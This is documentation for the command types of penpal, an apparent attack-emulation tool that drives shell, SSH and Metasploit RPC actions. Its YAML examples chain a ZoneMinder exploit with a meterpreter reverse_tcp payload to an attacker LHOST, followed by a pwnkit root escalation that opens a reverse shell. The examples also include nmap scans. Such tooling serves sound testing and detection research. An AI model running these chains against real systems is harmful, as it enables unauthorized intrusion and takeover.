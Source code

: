 ========
commands
========

This setting holds a list of commands that are executed sequentially from
top to bottom.

Every command, regardless of the type has the following options:

.. confval:: exit_on_error

   If this option is true, penpal will stop the run if the command returns with a return code
   that is not zero.

   :type: bool
   :default: ``True``

.. confval:: error_if

   If this option is set, an error will be raised if the string was found in the output
   of the command.

   :type: str


.. confval:: error_if_not

   If this option is set, an error will be raised if the string was not found in the output
   of the command.

   :type: str


.. confval:: loop_if

   If this option is set, the command will be executed again if the string was found in the
   output of the command.

   :type: str


.. confval:: loop_if_not

   If this option is set, the command will be executed again if the string was not found in the
   output of the command.

   :type: str


.. confval:: loop_count

   This option controlls how often a command should be re-executed if loop_if ord loop_if_not is set.

   :type: int
   :default: ``3``

.. confval:: cmd

   This option stores the command that will be executed. This option might be implemented individually
   in each command-type.

   :type: str


shell
-----

This command executes local shell-commands.

.. confval:: cmd

   cmd stores the command-line that should be executed locally.

   :type: str


   .. code-block:: yaml

      ###
      msf_config:
        password: top-secret
        server: 10.18.3.86

      vars:
        $SERVER_ADDRESS: 192.42.0.254
        $NMAP: /usr/bin/nmap

      commands:
        - type: shell
          cmd: $NMAP $SERVER_ADDRESS

sleep
-----

This command sleeps a certain amount of time.

.. code-block:: yaml

   ###
   commands:
     - type: sleep
       seconds: 60


.. confval:: min_sec

   This option defines the minimum seconds to sleep. This
   is only relevant if option **random** is set to True

   :type: int
   :default: ``0``


.. confval:: seconds

   This options sets the seconds to sleep. If the option
   **random** is set to True, this option is the maximum time
   to sleep.

   :type: int
   :default: ``1``
   :required: True


.. confval:: random

  This option allows to randomize the seconds to wait. The minimum
  and maximum seconds for the range can be set by **min_sec** and
  **seconds**.


  :type: bool
  :default: ``False``


  The following example will take a random amount of seconds between 30 seconds
  and 60 seconds:

  .. code-block:: yaml

     ###
     commands:
       - type: sleep
         seconds: 60
         min_sec: 30


.. confval:: cmd

  This option is ignored

  :type: str
  :default: ``sleep``

ssh
---

Execute commands on a remote server via SSH.

.. note::

   This command caches all the settings so
   that they only need to be defined once.

.. code-block:: yaml

   vars:
     $SERVER_ADDRESS: 192.42.0.254
     $SSH_SERVER: 10.10.10.19

   commands:
     # creates new ssh-connection and session
     - type: ssh
       cmd: nmap $SERVER_ADDRESS
       hostname: 10.10.10.19
       username: aecid
       key_filename: "/home/alice/.ssh/id_rsa"
       creates_session: "attacker"

     # cached ssh-settings. creates new ssh-connection
     - type: ssh
       cmd: "echo $SERVER_ADDRESS"

     # reuses existing session "attacker"
     - type: ssh
       session: "attacker"
       cmd: "id"

.. confval:: hostname

   This option sets the hostname or ip-address of the
   remote ssh-server.

   :type: str

.. confval:: port

   Port to connect to on the remote host.

   :type: int
   :default: ``22``

.. confval:: username

   Specifies the user to log in as on the remote machine.

   :type: str

.. confval:: password

   Specifies the password to use. An alternative would be to use a key_file.

   :type: str

.. confval:: passphrase

   Use this passphrase to decrypt the key_file. This is only necessary if the
   keyfile is protected by a passphrase.

   :type: str

.. confval:: timeout

   The timeout to drop a connection attempt in seconds.

   :type: float

.. confval:: clear_cache

   Normally all settings for ssh-connections are cached. This allows to defined
   all settings in one command and all following commands can reuse these settings
   without set them in every single command. If a new connection with different
   settings should be configured, this setting allows to reset the cache to default
   values.

   :type: bool
   :default: ``False``

   .. note::

       This setting will not clear the session store.

.. confval:: creates_session

   A session name that identifies the session that is created when
   executing this command. This session-name can be used by using the
   option "session"

   :type: str

.. confval:: session

   Reuse an existing ssh-session. This setting works only if another
   ssh-command was executed with the command-option "creates_session"

   :type: str

.. confval:: jmp_hostname

   This option sets the hostname or ip-address of the
   remote jump server.

   :type: str

.. confval:: jmp_port

   Port to connect to on the jump-host.

   :type: int
   :default: ``22``

.. confval:: jmp_username

   Specifies the user to log in as on the jmp-host.

   :type: str
   :default: ``same as username``


.. _msf-module:

msf-module
----------

This command executes Metasploit-Modules via Metasploits RPC-Api.

.. note::

   To configure the connection to the msfrpc-server see :ref:`msf_config`

Some Metasploit-Modules return output. Like the Auxilary-Modules:

.. code-block:: yaml

   msf_config:
     password: hackhelfer
     server: 10.18.3.86

   commands:
     - type: msf-module
       cmd: auxiliary/scanner/portscan/tcp
       options:
         RHOSTS: 192.42.0.254

Most Exploit-Modules don't create output but instead they create
sessions(see :ref:`msf-session`)

.. code-block:: yaml

   msf_config:
     password: hackhelfer
     server: 10.18.3.86

   commands:
     - type: msf-module
        cmd: exploit/unix/webapp/zoneminder_snapshots
        creates_session: "foothold"
        options:
          RHOSTS: 192.42.0.254
        payload_options:
          LHOST: 192.42.2.253
        payload: cmd/unix/python/meterpreter/reverse_tcp

.. confval:: cmd

   This option stores the path to the metasploit-module.

   :type: str

   .. note::

     Please note that the path includes the module-type.


.. confval:: target

   This option sets the payload target for the metasploit-module.

   :type: int
   :default: ``0``

.. confval:: creates_session

   A session name that identifies the session that is created by
   the module. This session-name can be used by :ref:`msf-session`

   :type: str

.. confval:: session

   This option is set in exploit['SESSION']. Some modules(post-modules)
   need a session to be executed with.

   :type: str

.. confval:: payload

   Path to a payload for this module.

   :type: str

   The following example illustrates the use of sessions and payloads:

   .. code-block:: yaml

      commands:
        - type: msf-module
           cmd: exploit/unix/webapp/zoneminder_snapshots
           creates_session: "foothold"
           options:
             RHOSTS: 192.42.0.254
           payload_options:
             LHOST: 192.42.2.253
           payload: cmd/unix/python/meterpreter/reverse_tcp

         - type: msf-module
           cmd: exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec
           session: "foothold"
           creates_session: "root"
           options:
             WRITABLE_DIR: "/tmp"
           payload_options:
             LHOST: 192.42.2.253
             LPORT: 4455
           payload: linux/x64/shell/reverse_tcp

.. confval:: options

   Dict(key/values) of module options, like RHOSTS:

   :type: Dict[str,str]

.. confval:: payload_options

   Dict(key/values) of payload options, like LHOST and LPORT:

   :type: Dict[str,str]


.. _msf-session:

msf-session
-----------

This command allowes to read and write commands to (Meterpreter)sessions that
have previously created by msf-modules(see :ref:`msf-module`).


.. note::

   To configure the connection to the msfrpc-server see :ref:`msf_config`

.. confval:: stdapi

   Load stdapi module in the Meterpreter-session.

   :type: bool
   :default: ``False``

.. confval:: write

   Execute a raw write-operation without reading the output.

   :type: bool
   :default: ``False``

.. confval:: read

   Execute a raw read-operation without a write-operation.

   :type: bool
   :default: ``False``

.. confval:: session

   Use this session for all operations.

   :type: str
   :required: True

.. confval:: end_str

   This string indicated the end of a read-operation.

   :type: str

debug
-----

This command prints out strings and variables and is for debugging
purposes only.

   .. code-block:: yaml

      ###
      msf_config:
        password: top-secret
        server: 10.18.3.86

      vars:
        $SERVER_ADDRESS: 192.42.0.254
        $NMAP: /usr/bin/nmap

      commands:
        - type: debug
          cmd: "$NMAP $SERVER_ADDRESS"
          varstore: True


.. confval:: varstore

   Print out all variables that are stored in the VariableStore.

   :type: bool
   :default: ``False``
